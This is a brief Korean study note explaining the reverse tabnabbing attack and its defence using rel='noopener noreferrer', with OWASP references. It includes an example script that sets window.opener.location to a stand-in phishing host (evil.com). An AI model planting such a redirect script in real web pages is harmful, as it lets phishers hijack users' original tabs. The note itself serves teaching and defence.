 # Tabnabbing
## 개념
* HTML 문서에서 링크 클릭 시 새롭게 열린 탭에서 기존 문서의 location을 피싱 사이트로 변경한다. 
	* 앵커 태그의 target이 \_blank인 것만 가능. target \_blank는 새 창이나 새 탭에서 열리는 속성이다.
	* 링크를 클릭하여 연 페이지에서 자바스크립트를 이용해 opener의 location을 피싱 사이트로변경
	* 새로 연 탭에서 다시 기존 탭으로 이동하면 기존 탭이 피싱 사이트에 접속해 있다. 



링크 게시 사이트

```HTML
<a target=_blank href=http://example.com/watch_this>hello</a>
```

watch_this 내용
```HTML
<script>
window.opener.location = "http://evil.com"
</script>
```

evil.com 내용
```HTML
피싱 사이트 내용
```


## 방어
* 앵커 태그에 rel="noopener noreferrer" 속성 추가
	* noopener : 링크를 오픈한 window.opener 값을 설정하지 않음
	* noreferrer : referer 정보를 보내지 않음


## 참고
* https://blog.coderifleman.com/2017/05/30/tabnabbing_attack_and_noopener/
* https://www.owasp.org/index.php/Reverse_Tabnabbing
